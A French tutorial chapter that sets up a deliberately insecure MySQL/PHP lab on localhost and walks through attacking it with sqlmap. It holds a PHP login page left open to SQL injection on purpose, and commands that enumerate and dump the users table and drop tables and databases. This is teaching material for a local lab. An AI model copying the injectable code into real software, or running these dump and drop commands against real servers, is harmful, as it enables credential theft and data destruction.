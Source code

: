 # 🧨 **CHAPITRE-07 – Hors-Série : Simulation d’une Attaque SQL Injection avec sqlmap sur une Base de Données MySQL Non Sécurisée**


1. Création d’un environnement vulnérable avec MySQL non sécurisé  
2. Page PHP injectable  
3. Toutes les **commandes sqlmap** pour :
   - Découvrir les bases de données
   - Explorer les tables
   - Extraire les données (dump)
   - Supprimer des bases de données ou des tables via sqlmap (en mode test)

---

# 🧨 PARTIE 7 – Hors-Série : Attaque d’une base de données non sécurisée avec sqlmap

---

## 🔧 ÉTAPE 1 – Créer un environnement vulnérable

### 📦 Installer le stack LAMP non sécurisé
```bash
sudo apt update
sudo apt install apache2 mysql-server php php-mysql libapache2-mod-php -y
```

⚠️ **NE PAS sécuriser MySQL** :  
Ne pas lancer `mysql_secure_installation`

---

### 🗃️ Créer une base de données vulnérable

```bash
sudo mysql -u root

CREATE DATABASE testdb;
USE testdb;

CREATE TABLE users (
  id INT AUTO_INCREMENT PRIMARY KEY,
  username VARCHAR(50),
  password VARCHAR(50)
);

INSERT INTO users (username, password) VALUES 
('admin', 'admin123'),
('jean', 'pass1234'),
('root', 'toor'),
('alice', '123456');

EXIT;
```

---

## 🧑‍💻 ÉTAPE 2 – Créer une page PHP vulnérable à l'injection SQL

### 📁 Fichier : `/var/www/html/login.php`
```php
<?php
$mysqli = new mysqli("localhost", "root", "", "testdb");
if ($mysqli->connect_error) {
    die("Connection failed: " . $mysqli->connect_error);
}

$user = $_GET['user'];
$pass = $_GET['pass'];

$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
$result = $mysqli->query($sql);

if ($result->num_rows > 0) {
    echo "Logged in successfully!";
} else {
    echo "Login failed.";
}
?>
```

➡️ Accessible à :  
`http://localhost/login.php?user=admin&pass=admin123`

---

## 🧪 ÉTAPE 3 – Exploiter la faille avec **sqlmap**

### ✅ Tester si la cible est vulnérable

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --batch --risk=3 --level=5
```

---

### 📂 Lister les bases de données :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --dbs
```

---

### 🗂️ Lister les tables de `testdb` :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" -D testdb --tables
```

---

### 📑 Lister les colonnes de la table `users` :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" -D testdb -T users --columns
```

---

### 📤 Dumper tout le contenu de `testdb.users` :

```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" -D testdb -T users --dump
```

---

## 💥 ÉTAPE 4 – Supprimer la base ou une table avec **sqlmap**

> ⚠️ Sqlmap ne fournit pas directement une commande "drop database", mais tu peux **exécuter une requête SQL arbitraire** avec `--sql-query`.

### 🗑️ Supprimer une table :
```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --sql-query="DROP TABLE testdb.users"
```

### ☠️ Supprimer une base entière :
```bash
sqlmap -u "http://localhost/login.php?user=admin&pass=admin123" --sql-query="DROP DATABASE testdb"
```

✅ Ces commandes **suppriment réellement** les données sur le serveur MySQL.

---

## ✅ Résumé des commandes sqlmap

| Action                                 | Commande                                                                 |
|----------------------------------------|--------------------------------------------------------------------------|
| Vérifier vulnérabilité                 | `sqlmap -u "URL" --batch --risk=3 --level=5`                             |
| Lister les bases                       | `sqlmap -u "URL" --dbs`                                                  |
| Lister les tables d'une base           | `sqlmap -u "URL" -D testdb --tables`                                     |
| Lister les colonnes d'une table        | `sqlmap -u "URL" -D testdb -T users --columns`                           |
| Dumper une table                       | `sqlmap -u "URL" -D testdb -T users --dump`                              |
| Supprimer une table                    | `sqlmap -u "URL" --sql-query="DROP TABLE testdb.users"`                  |
| Supprimer une base                     | `sqlmap -u "URL" --sql-query="DROP DATABASE testdb"`                     |

---

## 🧹 ÉTAPE 5 – Nettoyage de l’environnement

```bash
sudo systemctl stop apache2
sudo systemctl stop mysql
sudo rm -rf /var/www/html/*
sudo apt remove apache2 mysql-server php php-mysql libapache2-mod-php -y
sudo apt autoremove -y
```
